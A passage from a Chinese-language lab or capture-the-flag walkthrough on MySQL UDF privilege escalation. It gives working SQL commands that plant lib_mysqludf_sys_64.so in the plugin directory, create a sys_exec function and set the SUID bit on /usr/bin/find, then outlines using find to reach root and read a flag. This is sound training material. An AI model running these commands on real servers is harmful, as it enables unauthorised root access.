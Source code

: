 插入数据

插入load_file读取的lib_mysqludf_sys_64.so‘’二进制‘’数据

```
insert into myfunc values(load_file('/var/www/html/lib_mysqludf_sys_64.so'));
```

![image-20220301194244456](https://gitee.com/xxb667/img/raw/master/img/image-20220301194244456.png)

导出文件

使用dumpfile函数把文件导出

- outfile 多行导出，dumpfile一行导出
- outfile会有特殊的转换，而dumpfile是原数据导出

```
select * from myfunc into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys_64.so';
```

![image-20220301194351030](https://gitee.com/xxb667/img/raw/master/img/image-20220301194351030.png)

使用sys_exec 函数

```
create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';
```

![image-20220301194644341](https://gitee.com/xxb667/img/raw/master/img/image-20220301194644341.png)

查询一下添加的函数

```
select * from mysql.func;
```

![image-20220301194737868](https://gitee.com/xxb667/img/raw/master/img/image-20220301194737868.png)

### 改变find命令权限

利用自定义函数改变find命令权限

```
select sys_exec('chmod u+s /usr/bin/find');
```

![image-20220301194947948](https://gitee.com/xxb667/img/raw/master/img/image-20220301194947948.png)

# 4. 提权

## 4.1 使用find命令提权

- 退出数据库
  - 新建一个文件hello
- 使用find命令查找这个文件
- 并使用find命令执行shell命令
  - find执行shell命令后
  - 可以看到已经提升到root权限了
- 读取flag文件
